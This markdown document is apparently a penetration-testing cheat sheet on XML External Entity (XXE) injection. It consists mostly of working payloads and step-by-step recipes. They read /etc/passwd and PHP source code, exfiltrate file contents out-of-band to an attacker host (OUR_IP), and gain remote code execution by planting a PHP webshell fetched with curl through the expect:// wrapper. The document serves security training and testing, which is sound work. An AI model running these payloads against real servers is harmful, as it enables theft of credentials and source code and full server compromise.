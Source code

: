# XML External Entities (XXE)

## **Introduction**

> XML external entity injection (XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. XXE can allow an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.\
> In some situations, an attacker can leverage an XXE vulnerability to perform SSRF attacks\
> **Source:** [https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe)

***

## **XXE Basic Payloads**

| Code                                                                               | Description                                                                                                                                                |
| ---------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">`                                | Define External Entity to a URL                                                                                                                            |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">`                                        | Define External Entity to a local file path (XXE Local File Disclosure)                                                                                    |
| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter (XXE PHP Source Code Disclosure). You will need to use `echo 'base64out' \| base64 -d` to decode the output |
| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">`        | Reading a file through a PHP error (XXE PHP Source Code Disclosure)                                                                                        |
| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">`  | Reading a file OOB (out-of-band) exfiltration                                                                                                              |

***

## **XXE Tools and Useful Resources**

1. [https://github.com/enjoiz/XXEinjector](https://github.com/enjoiz/XXEinjector)
2. [https://github.com/luisfontes19/xxexploiter](https://github.com/luisfontes19/xxexploiter)
3. [https://github.com/payloadbox/xxe-injection-payload-list](https://github.com/payloadbox/xxe-injection-payload-list)

***

## **XXE Enumeration & Discovery**

> * Suppose a web application utilizes outdated XML libraries to parse and process XML input data from the front-end user.
> * In that case, it may be possible to send malicious XML data to disclose local files stored on the back-end server.
> * A XXE attack defines a custom entity within the XML DTD to steal data such as configuration files, sensitive information and so on.
> * These files may be configuration files that may contain sensitive information like passwords or even the source code of the web application
> * XXE attacks can even be leveraged to steal the hosting server's credentials, which would compromise the entire server and allow for remote code execution.

***

## **XXE Detection**

1. Identify an XML file upload form which sends a request containing the xml's file content in cleartext
2. Identify a XML reflected tag/parameter inside the web application
3. If any of the previous steps finds a potential XXE vector, inject the following payload after the XML DTD (e.g. after `<xml version="1.0" encoding="UTF-8?>`):
   * `<!DOCTYPE foo [ <!ENTITY &xxe "my entity value" > ]>`
   * This definition means that any usage of the entity reference `&xxe;` within the XML document will be replaced with the defined value: "my entity value".
4. Add a reference to the previous entity inside the XXE vector (example: email tag) as follows:
   * `<email> &xxe; </email>`
   * If "my entity value" is reflected (in the response or in the resulting webpage), then you can proceed with other XXE payloads

***

## **XXE Non-PHP Source Code Disclosure using CDATA**

1. Use (inject) the following XXE Payload:

```
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
```

2. Host a DTD file on our Kali machine: `echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd`
3. Start an HTTP server: `python3 -m http.server`
4. Reference the xxe entity to print the file content (e.g. use `&xxe;` in any reflected tag)

***

## **XXE Remote Code Execution via PHP Expect Wrapper**

1. Write the webshell in a file: `echo '<?php system($_REQUEST["cmd"]);?>' > shell.php`
2. Start a webserver: `python3 -m http.server 80`
3.  Use the following XXE Payload:

    ```
    <?xml version="1.0"?>
    <!DOCTYPE email [
      <!ENTITY xxe SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
    ]>
    ```
4. Use a reference to the previously defined entity inside a reflected XML tag: `<email>&xxe;</email>`

***

## **XXE Fully Blind data Exfiltration (Out of Band (XXE))**

1.  Write the following `xxe.dtd` file on our Kali machine:

    ```
    <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
    <!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
    ```
2.  Write the following `index.php` file on our Kali machine:

    ```
    <?phpif(isset($_GET['content'])){
     error_log("\n\n" . base64_decode($_GET['content']));
    }
    ?>
    ```
3. Start a php webserver (in the same folder as index.php): `php -S 0.0.0.0:8000`
4.  Use the following XXE Payload:

    ```
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE email [
      <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
      %remote;
      %oob;
    ]>
    ```
5. Reference the XXE entity in a reflected XML parameter: `<root>&content;</root>`
